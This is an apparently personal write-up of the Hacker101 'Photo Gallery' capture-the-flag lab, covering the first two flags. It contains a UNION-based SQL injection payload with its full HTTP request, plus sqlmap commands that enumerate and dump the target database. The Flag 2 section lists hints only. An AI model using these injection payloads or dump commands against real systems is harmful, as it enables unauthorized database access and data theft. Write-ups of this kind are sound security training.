 # Hacker 101 CTF Photo Gallery

This CTF was quite fun in my opinion

---

#### Flag 0

-- <b>Hints</b> --

```html
<ul>
  <li>
    Consider how you might build this system yourself. What would the query for fetch look like?
  </li>
  <li>Take a few minutes to consider the state of the union</li>
  <li>This application runs on the uwsgi-nginx-flask-docker image</li>
</ul>
```

For this challenge I very much lent on the hints but once I saw the uswgni-nginx-flask-docker hint, the hunt was on. I've dealt with a lot python projects as a developer and I've seen this quite a bit.

So... With the hints in mind I went to the /fetch query with this payload

fetch?id=0+UNION+SELECT+’main.py’

from my burp inteceptor and presto! FLAG in the python source code.

```http
GET /fetch?id=0+UNION+SELECT+'main.py' HTTP/2
Host: <target>
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

---

#### Flag 1

-- <b>Hints</b> --

```html
<ul>
  <li>I never trust a kitten I can't see</li>
  <li>Or a query whose results I can't see, for that matter</li>
</ul>
```

After the first flag I went back to the index page and decided to see what this invisible image is.

I did laugh a bit when the hints said <i>I never trust a kitten I can't see</i> because those were my thoughts exactly.

I tried simply fetching the file via the fetch paramater but no dice.

It is already confirmed that this application is vulnerable to SQLi so maybe I could try something targetting this pesky image.

After a few failures targeting the image I decided to pull out sqlmap; I need to know more about the database and storage and seeing as we have already utilised SQLi, this should yield something interesting... hopefully..

use a id that doesn't cause an error

```sh
sqlmap -u <target>/fetch?id=1 --dbs
```

with this I found that there is a database called 'level5'

```sh
sqlmap -u <target>/fetch?id=1 --dbs --table=level5 --dump --threads=2
```

this command showed me that there are two tables and showed values for our mysterious image.. including the FLAG

---

#### Flag 2

-- <b>Hints</b> --

```html
<ul>
  <li>That method of finding the size of an album seems suspicious</li>
  <li>Stacked queries rarely work. But when they do, make absolutely sure that you're committed</li>
  <li>Be aware of your environment</li>
</ul>
```

---
